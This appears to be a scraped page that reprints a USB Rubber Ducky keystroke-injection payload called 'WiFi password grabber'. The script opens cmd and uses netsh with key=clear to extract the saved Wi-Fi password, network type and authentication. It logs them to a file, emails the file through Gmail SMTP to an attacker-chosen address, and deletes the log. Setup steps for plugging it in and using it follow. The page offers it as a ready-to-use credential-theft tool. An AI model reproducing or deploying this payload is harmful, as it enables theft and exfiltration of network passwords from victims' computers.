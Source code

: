 Payload Ref : https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---WiFi-password-grabber


Payload Orignal RubberDucky Script :

REM Title: WiFi password grabber
REM Author: Siem
REM Version: 3
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt and emails the contents of Log.txt from a gmail account.
DELAY 3000

REM --> Minimize all windows
WINDOWS d

REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000

REM --> Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER

REM --> Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER

REM --> Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER

REM --> Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER

REM --> Get password
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER

REM --> Delete A.txt
STRING del A.txt
ENTER

REM --> Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER

REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER

REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER


Ref By : www.dishantrathi.tk


Changes: 

1 :	Install
2 : ACCOUNT: Your gmail account && PASSWORD: Your gmail password
	RECEIVER: The email you want to send the content of Log.txt to
3 : Plug n Play